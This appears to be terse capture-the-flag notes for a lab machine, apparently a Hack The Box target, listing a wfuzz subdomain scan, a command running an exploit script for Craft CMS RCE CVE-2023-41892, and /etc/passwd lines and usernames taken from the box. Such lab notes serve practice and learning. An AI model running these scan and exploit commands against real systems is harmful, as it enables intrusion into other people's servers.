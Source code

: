 # ip
10.10.11.245

# wfuzz subdomains
wfuzz --hh 154 -c -w ../../SecLists/Discovery/DNS/subdomains-top1million-5000.txt -H "HOST:FUZZ.surveillance.htb" http://surveillance.htb

# rce cve-2023-41892
python3 craft-cms.py http://surveillance.htb

# etc/passwd
matthew:x:1000:1000:,,,:/home/matthew:/bin/bash
mysql:x:114:122:MySQL Server,,,:/nonexistent:/bin/false
zoneminder:x:1001:1001:,,,:/home/zoneminder:/bin/bash
fwupd-refresh:x:115:123:fwupd-refresh user,,,:/run/systemd:/usr/sbin/nologin
_laurel:x:998:998::/var/log/laurel:/bin/false

# user
matthew
zoneminder


# versio
"craftcms/cms": "4.4.14"